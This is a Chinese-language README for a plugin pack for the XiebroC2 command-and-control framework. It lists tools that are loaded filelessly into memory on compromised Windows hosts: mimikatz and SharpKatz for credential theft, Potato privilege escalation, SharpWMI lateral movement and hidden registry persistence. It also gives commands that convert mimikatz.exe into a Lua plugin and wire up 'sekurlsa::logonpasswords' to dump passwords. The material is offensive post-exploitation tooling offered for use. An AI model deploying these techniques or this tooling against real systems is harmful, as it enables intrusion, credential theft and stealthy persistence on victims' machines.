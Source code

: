 





## 使用

```
git clone https://github.com/INotGreen/Xiebro-Plugins.git
```

Manage->Plugins->Load，加载main.lua即可

载入Sesion中你会得到更多得命令

![image-20240818163749325](Image/image-20240818163749325.png)



## 工具

目前已经扩展下面的工具,全部采用无文件落地的方式进行内存加载

|                           工具                           |                             描述                             |
| :------------------------------------------------------: | :----------------------------------------------------------: |
|       [fscan](https://github.com/shadow1ng/fscan)        |      内网综合扫描工具，方便一键自动化、全方位漏扫扫描。      |
|    [mimikatz](https://github.com/gentilkiwi/mimikatz)    |      从内存中提取明文密码、哈希、PIN 码和 Kerberos 票证      |
|    [RegHide](https://github.com/outflanknl/SharpHide)    |                     添加隐藏注册表启动项                     |
|     [SharpKatz](https://github.com/b4rtik/SharpKatz)     |          mimikatz的C#版本，用于获取明文密码和dcsync          |
|   [SharpScan](https://github.com/INotGreen/SharpScan)    | 内网资产收集、探测主机存活、端口扫描、域控定位、文件搜索、密码爆破和账号枚举 |
| [SharpToken](https://github.com/BeichenDream/SharpToken) |  Token窃取，切换System和administrator权限，用于提权降权场景  |
|    [SweetPotato](https://github.com/CCob/SweetPotato)    |                 将服务器权限提升至System权限                 |
|    [SharpWMI](https://github.com/QAX-A-Team/sharpwmi)    |      基于135端口的横向移动工具，可以执行命令，上传文件       |
|  [BadPotato](https://github.com/BeichenDream/BadPotato)  |                 将服务器权限提升至System权限                 |
|  [GodPotato](https://github.com/BeichenDream/GodPotato)  |                 将服务器权限提升至System权限                 |





XiebroC2的插件做到极度的简洁化，几乎使用一行代码你就可以为它添加一个外部命令

用Convert.ps1脚本可以直接将C/C++/Go/rust/.net/Bin等PE直接转成lua脚本

```powershell
Import-Module .\Convert.ps1
```

```powershell
Convert-ExeToBase64Lua -i "C:\Users\admin\Desktop\mimikatz.exe" -o "mimikatz.lua" -Command "Mimikatz" -LoadModule "inline-execute" -Description "Get windows password credentials" -Usage "Mimikatz <args>"
```



参数解释

```lua
-i:            选择输入的文件
-o:            输出的文件
-Command:      命令的名称
-LoadModule:   加载模式
-Description:  描述
-Usage:        使用方法
```



用于添加外部命令的函数主要有两个，AddCommand_W和AddCommand_A的区别在于：AddCommand_A打包了exe的使用参数，例如你可以直接将想直接使用logonpassword 



```lua
AddCommand_A(
    "logonpasswords",                                      --命令名称
     mimikatz,                                            --Base64Compress
    "privilege::debug sekurlsa::logonpasswords exit",      --exe的参数
    "inline-execute",                                      --加载模式
    "Get password credentials on windows",                 --命令描述
    "logonpasswords"                                       --使用方法
);
```



```lua
AddCommand_W(
    "mimikatz",
    mimikatz,
    "inline-execute",
    "Get password credentials on windows",
    "mimikatz <args>"
);
```



这里的LoadModule(加载模式)有四种

```lua
inline-execute                                     --内联加载C/C++/go/rust的exe文件
inline-execute-bin                                 --内联加载C/C++/go/rust的bin文件
inline-assembly	                                   --内联加载.net文件
execute-assembly                                   --Fork&&Run模式(创建子进程)进行内存加载.net文件
```



